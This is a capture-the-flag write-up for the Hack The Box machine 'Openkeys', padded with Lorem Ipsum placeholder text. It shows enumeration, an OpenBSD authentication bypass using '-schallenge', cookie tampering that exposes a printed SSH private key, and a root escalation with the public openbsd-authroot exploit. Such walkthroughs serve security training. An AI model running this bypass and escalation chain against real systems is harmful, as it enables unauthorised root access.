 ```yaml
---
layout: single
title: Openkeys - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2020-09-10
classes: wide
header:
  teaser: /assets/images/htb-writeup-openkeys/openkeys_logo.png
  teaser_home_page: true
  icon: /assets/images/openbsd.png
categories:
  - hackthebox
  - infosec
tags:  
  - openbsd
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-openkeys/openkeys_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------

   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. root@nidus:/git/htb/openkeys# nmap -Pn -n -sC -sV 10.10.10.199
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.1 (protocol 2.0)
    | ssh-hostkey:
    |   3072 5e:ff:81:e9:1f:9b:f8:9a:25:df:5d:82:1a:dd:7a:81 (RSA)
    |   256 64:7a:5a:52:85:c5:6d:d5:4a:6b:a7:1a:9a:8a:b9:bb (ECDSA)
    |_  256 12:35:4b:6e:23:09:dc:ea:00:8c:72:20:c7:50:32:f3 (ED25519)
    80/tcp open  http    OpenBSD httpd
    |_http-title: Site doesn't have a title (text/html).

    DIRB:
    ==> DIRECTORY: http://10.10.10.199/css/
    ==> DIRECTORY: http://10.10.10.199/fonts/
    ==> DIRECTORY: http://10.10.10.199/images/
    ==> DIRECTORY: http://10.10.10.199/includes/
    + http://10.10.10.199/index.html (CODE:200|SIZE:96)
    + http://10.10.10.199/index.php (CODE:200|SIZE:4837)
    ==> DIRECTORY: http://10.10.10.199/js/
    ==> DIRECTORY: http://10.10.10.199/vendor/

    NIKTO:
    + Server: OpenBSD httpd
    + Cookie PHPSESSID created without the httponly flag
    + Multiple index files found: /index.php, /index.html
    + OSVDB-3092: /includes/: This might be interesting...


2. Enumerating the webserver we find some interesting files right away.

  http://10.10.10.199/includes/auth.php.swp

  Download the swap-file and restor it by using 'vim -r auth.php.swp', save the file as auth.php (:w auth.php)

    root@nidus:/git/htb/openkeys# curl http://10.10.10.199/includes/auth.php.swp --output auth.php.swp
    root@nidus:/git/htb/openkeys# cat auth.php
      [..]
      $cmd = escapeshellcmd("../auth_helpers/check_auth " . $username . " " . $password);
      system($cmd, $retcode);
      [..]
      function init_session()
      {
          $_SESSION["logged_in"] = True;
          $_SESSION["login_time"] = $_SERVER['REQUEST_TIME'];
          $_SESSION["last_activity"] = $_SERVER['REQUEST_TIME'];
          $_SESSION["remote_addr"] = $_SERVER['REMOTE_ADDR'];
          $_SESSION["user_agent"] = $_SERVER['HTTP_USER_AGENT'];
          $_SESSION["username"] = $_REQUEST['username'];

  From the first snippet of the code we see that username and passwords are verified using '../auth_helpers/check_auth'
  In the second snippet we learn that the SESSION variable is controlled in the init-function, including username on the last line.

  Lastly, running strings on the swap file gives us a user - Jennifer.

    root@nidus:/git/htb/openkeys# strings auth.php.swp
      b0VIM 8.1
      jennifer
      openkeys.htb
      [..]

  Download the check_auth program, and enumerate it.
    root@nidus:/git/htb/openkeys# curl http://10.10.10.199/auth_helpers/check_auth --output check_auth
    root@nidus:/git/htb/openkeys# file check_auth
      check_auth: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /usr/libexec/ld.so, for OpenBSD, not stripped

  We could try to RE this ELF-file, however I'll go with this as a last resort. As for now it is not needed.


3. With all enumerated information, lets start to look for exploits. Pretty quickly we find an article covering
   four big OpenBSD vulnerabilities:
     - CVE-2019-19519 (Local privilege escalation)
     - CVE-2019-19520 (Local privilege escalation)
     - CVE-2019-19521 (Authentication Bypass)
     - CVE-2019-19522 (Local privilege escalation)

  CVE-2019-19521 tells us in short that we can bypass the auth by entering '-schallenge' as username, and any password.
  Trying this on our login prompt is successful, we are greeted with the text "OpenSSH key not found for user -schallenge"

  This is where I got stuck for a good while and had to turn to the forums for help. But as we could see before, the SESSION
  variable username can be controlled - and maybe tampered with in the cookie. Set the Name-filed to 'username' and
  Value-filed to 'jennifer'.

  Log in and out again, and voila! We got Jennifer's private key!

     -----BEGIN OPENSSH PRIVATE KEY-----
    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
    -----END OPENSSH PRIVATE KEY-----


4. Save the private key, login as Jennifer and grab user.txt.

    root@nidus:/git/htb/openkeys# ssh jennifer@openkeys.htb -i jennifer_id-rsa
      Last login: Wed Jun 24 09:31:16 2020 from 10.10.14.2
      OpenBSD 6.6 (GENERIC) #353: Sat Oct 12 10:45:56 MDT 2019

      Welcome to OpenBSD: The proactively secure Unix-like operating system.

      Please use the sendbug(1) utility to report bugs in the system.
      Before reporting a bug, please try to reproduce it with the latest
      version of the code.  With bug reports, please try to ensure that
      enough information to reproduce the problem is enclosed, and if a
      known fix for it exists, include that as well.

      openkeys$ id
        uid=1001(jennifer) gid=1001(jennifer) groups=1001(jennifer), 0(wheel)
      openkeys$ cat user.txt
        36ab21239a15c537bde90626891d2b10



██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. From our previous article, we also found three CVE's for Local PrivEsc, CVE-2019-19519, CVE-2019-19520 and CVE-2019-19522.
   A quick google for the CVE's we find a script called openbsd-authroot on github, download it and try it out.

    openkeys$ vi openbsd-authroot
    openkeys$ chmod +x openbsd-authroot
    openkeys$ ./openbsd-authroot
    openbsd-authroot (CVE-2019-19520 / CVE-2019-19522)
      [*] checking system ...
      [*] system supports S/Key authentication
      [*] id: uid=1001(jennifer) gid=1001(jennifer) groups=1001(jennifer), 0(wheel)
      [*] compiling ...
      [*] running Xvfb ...
      [*] testing for CVE-2019-19520 ...
      _XSERVTransmkdir: ERROR: euid != 0,directory /tmp/.X11-unix will not be created.
      [+] success! we have auth group permissions

      WARNING: THIS EXPLOIT WILL DELETE KEYS. YOU HAVE 5 SECONDS TO CANCEL (CTRL+C).

      [*] trying CVE-2019-19522 (S/Key) ...
      Your password is: EGG LARD GROW HOG DRAG LAIN
      otp-md5 99 obsd91335
      S/Key Password:

      openkeys# id
        uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
      openkeys# cat root.txt
        f3a553b1697050ae885e7c02dbfc6efa


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝


OpenBSD Auth Bypass
  https://www.secpod.com/blog/openbsd-authentication-bypass-and-local-privilege-escalation-vulnerabilities/
  https://www.qualys.com/2019/12/04/cve-2019-19521/authentication-vulnerabilities-openbsd.txt

openbsd-authroot PrivEsc
  https://github.com/bcoles/local-exploits/blob/master/CVE-2019-19520/openbsd-authroot
